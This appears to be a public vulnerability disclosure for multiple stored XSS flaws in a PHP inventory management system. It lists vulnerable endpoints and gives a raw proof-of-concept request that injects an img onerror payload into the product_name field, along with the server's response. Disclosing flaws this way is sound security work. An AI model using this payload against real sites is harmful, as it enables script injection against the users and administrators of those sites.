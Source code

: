﻿
**Exploit Title:** Free and Open Source inventory management system php - Multiple Stored XSS 
**Date**: 4/08/2023
**Exploit Author:** y3thu
**Vendor Homepage:** https://www.sourcecodester.com/users/mayurik
**Software Link:** https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
**Attack Vector:** WEB, Network
**Testeted on:** Windows 10  using XAMPP
Request
**Authenticated stored XSS**
**Vulnerable Endpoints:** `/index.php?page=add_expense ,/index.php?page=add_product,/index.php?page=add_stuff, ...`
**Affected endpoints:** `/index.php?page=sell_list,/index.php?page=buy_list,/index.php?page=product_list,/index.php?page=exspense_list,/index.php?page=staff_list,/index.php?page=dashboard,/index.php?page=category`
**POC**

    POST /ample/app/action/add_product.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 132
    Origin: http://localhost
    Connection: close
    Referer: http://localhost/ample/index.php?page=add_product
    Cookie: PHPSESSID=g11ukg4bi8dvr9q9uqvsslpm3t
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    
    product_name=%3Cimg+src%3Dx+onerror%3Dprompt(document.domain)%3E&brand=test&p_catagory=2&product_source=buy&sku=aaa&alert_quantity=3


Response

    HTTP/1.1 200 OK
    Date: Fri, 04 Aug 2023 08:52:04 GMT
    Server: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.30
    X-Powered-By: PHP/7.4.30
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 3
    Connection: close
    Content-Type: text/html; charset=UTF-8
    
    yes

